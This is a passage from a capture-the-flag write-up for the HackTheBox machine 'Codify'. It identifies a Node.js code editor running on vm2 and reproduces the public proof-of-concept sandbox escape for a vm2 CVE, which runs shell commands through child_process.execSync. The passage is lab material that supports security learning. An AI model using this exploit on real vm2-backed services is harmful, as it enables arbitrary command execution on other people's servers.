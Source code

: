 
Seems to be a nodeJS code parser, looking at the `About Us` page (linked up the top) something catches my eye.

![Uses vm2](images/htb/box/codify/codeeditor.png)

They announce it running on `vm2`, and looking online there is a [very recent CVE for `vm2`](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

They also mention on a limitation page about a ticketing system.

![Limitation](images/htb/box/codify/limitations.png)

## Exploitation

Here is the PoC code that was linked in the CVE:

```
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
```